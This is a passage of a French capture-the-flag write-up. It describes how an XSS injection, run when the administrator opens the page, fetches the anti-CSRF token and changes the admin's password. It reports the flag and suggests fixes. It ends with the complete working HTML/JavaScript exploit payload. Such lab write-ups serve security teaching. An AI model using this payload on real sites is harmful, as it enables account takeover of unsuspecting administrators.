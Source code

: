 ### 3.2. Détection d’un jeton anti-CSRF

- **Vérification** : En inspectant le formulaire HTML, on peut rechercher un champ caché contenant un jeton, souvent nommé `_csrf` ou similaire. Ce champ contient une valeur unique qui doit être envoyée avec le formulaire, comme le champ suivant trouvé lors de l'inspection :

   ```html
   <input type="hidden" name="_csrf" value="KxlHVsPc-MJDAQgLKDX0rxmhX5ZtlRQOEH20">
   ```

### 3.3. Exploitation XSS et Flag

- **XSS** : Nous avons exploité une vulnérabilité XSS en injectant un script malveillant dans une page accessible par l'administrateur. Ce script, une fois exécuté par l'administrateur lorsqu'il ouvre la page contenant notre injection, a récupéré dynamiquement le jeton CSRF de la page de modification de mot de passe. Ensuite, ce même script a utilisé le jeton récupéré pour soumettre une requête POST, modifiant le mot de passe de l’administrateur sans qu’il ne s’en aperçoive. Grâce à cette attaque, nous avons pu obtenir les droits administratifs sur le site.
- **Flag** : Le flag a pu être trouvé en cliquant sur la page admin, lorsque nous sommes connectés en tant qu'admin.
  - Message obtenu : `Congratulation ! You flag is : fTNx2CbPtkdv36wm`

### 3.4. Solution pour corriger la vulnérabilité

- **Solution** :
  - XSS : Assainir toutes les entrées utilisateur en échappant les caractères spéciaux (<, >, "), pour empêcher l'exécution de code JavaScript malveillant.
  - CSRF : S'assurer que tous les formulaires sensibles incluent un jeton anti-CSRF unique et que le serveur valide systématiquement ces jetons avant de traiter les requêtes.

**Message entier envoyé à l'admin :**

```html
<html>
  <body>
    <form name="CSRFExploit" method="post" action="profile/ouweis.harun_admin"> 
      <input type="password" name="password" value="Ouweisgg">
      <input type="hidden" name="_csrf" id="csrf_token" value="">
    </form>
    <script>
      // Étape 1 : Envoyer une requête pour accéder à la page de modification de mot de passe de l'admin
      var xhr = new XMLHttpRequest();
      xhr.open("GET", "/profile/ouweis.harun_admin", true);  // URL de la page de modification
      xhr.onreadystatechange = function() {
        if (xhr.readyState == 4 && xhr.status == 200) {
          // Étape 2 : Extraire le token CSRF de la réponse HTML
          var parser = new DOMParser();
          var doc = parser.parseFromString(xhr.responseText, "text/html");
          var csrfToken = doc.querySelector('input[name="_csrf"]').value;

          // Étape 3 : Insérer dynamiquement le jeton CSRF dans le formulaire
          document.getElementById("csrf_token").value = csrfToken;

          // Étape 4 : Soumettre automatiquement le formulaire une fois le token inséré
          document.CSRFExploit.submit();
        }
      };
      xhr.send();
    </script>
  </body>
</html>
```
